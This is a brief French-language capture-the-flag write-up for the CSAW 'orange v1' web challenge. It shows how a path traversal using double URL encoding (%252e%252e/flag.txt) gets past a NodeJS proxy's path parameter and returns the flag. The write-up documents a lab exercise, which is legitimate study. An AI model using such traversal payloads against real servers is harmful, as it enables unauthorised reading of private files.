

# orange v1 - web - 100 pts

## Désignation

I wrote a little proxy program in NodeJS for my poems folder.

Everyone wants to read flag.txt but I like it too much to share.

http://web.chal.csaw.io:7311/?path=orange.txt

## Solution

On se connecte sur la page qui nous renvoie un simple :

    i love oranges

Le path semble faillible, on essaye donc plusieurs possibilités telle que `http://web.chal.csaw.io:7311/?path=?` , ce qui nous renvoie :

Les différents liens ne renvoient que du texte .  
On sait que le fichier à afficher est flag.txt donc essaye le double encoding pour afficher le flag `http://web.chal.csaw.io:7311/?path=%252e%252e/flag.txt` :

    flag{thank_you_based_orange_for_this_ctf_challenge}

Flag !
